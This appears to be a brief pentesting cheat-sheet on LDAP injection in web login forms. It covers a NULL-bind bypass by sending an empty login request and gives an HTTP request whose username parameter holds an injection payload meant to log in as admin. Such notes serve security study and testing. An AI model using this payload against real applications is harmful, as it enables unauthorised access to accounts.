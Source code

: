 # LDAP injection

## LDAP authentication on webapps

### NULL bind authentication bypass

* Try to login removing username & password field \(empty post\)...

### Injection in user field

* Initial request :

```csharp
GET /?name=user&password=password HTTP/1.1
```

* Can be turned into:

```csharp
GET /?name=admin)(cn=*))%00&password=password HTTP/1.1
```



